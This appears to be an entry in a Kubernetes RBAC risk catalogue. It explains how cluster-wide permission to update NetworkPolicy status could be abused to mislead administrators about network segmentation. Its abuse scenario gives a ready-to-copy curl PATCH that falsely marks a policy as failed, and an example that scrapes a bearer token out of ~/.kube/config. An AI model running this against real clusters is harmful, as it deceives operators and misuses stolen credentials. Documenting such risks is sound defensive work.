 ```yaml
---
id: 1093
title: "Update NetworkPolicy Status (Cluster-wide Tampering)"
description: "Allows updating the status of NetworkPolicy objects across all namespaces. This could be abused to misrepresent the enforcement status of network policies, potentially hiding policy violations or misleading administrators about network segmentation."
category: Tampering
risk_level: RiskLevelMedium
date: ""
---
```


## Overview

| Field         | Value                                                                                      |
| ------------- | ------------------------------------------------------------------------------------------ |
| ID            | 1093                                                                                       |
| Name          | Update NetworkPolicy Status (Cluster-wide Tampering)                                       |
| Risk Category | Tampering                                                                                  |
| Risk Level    | {{< risk Medium >}}                                                                        |
| Role Type     | ClusterRole                                                                                |
| API Groups    | networking.k8s.io                                                                          |
| Resources     | networkpolicies/status                                                                     |
| Verbs         | update, patch                                                                              |
| Tags          | {{< tag "NetworkPolicyManagement" >}} {{< tag "Reconnaissance" >}} {{< tag "Tampering" >}} |

## Description

Allows updating the status of NetworkPolicy objects across all namespaces. This could be abused to misrepresent the enforcement status of network policies, potentially hiding policy violations or misleading administrators about network segmentation.

## Abuse Scenarios

1. Patch a NetworkPolicy's status to falsely indicate it's not ready or failed.

```bash {copy=true}
# Replace <kubernetes-api-server> with your API server address
# Replace <token> with your authentication token
curl -k -H "Authorization: Bearer <token>" -H "Content-Type: application/json" -X PATCH \
  --data '{"status":{"conditions":[{"type":"Ready","status":"False","reason":"PolicyError","message":"Policy failed to apply due to internal error."}]}}' \
  https://<kubernetes-api-server>/apis/networking.k8s.io/v1/namespaces/<namespace>/networkpolicies/<policy-name>/status
# Example: curl -k -H "Authorization: Bearer $(cat ~/.kube/config | grep token: | awk '{print $2}')" -H "Content-Type: application/json" -X PATCH --data '{"status":{"conditions":[{"type":"Ready","status":"False","reason":"PolicyError","message":"Policy failed to apply due to internal error."}]}}' https://127.0.0.1:6443/apis/networking.k8s.io/v1/namespaces/default/networkpolicies/my-policy/status

```
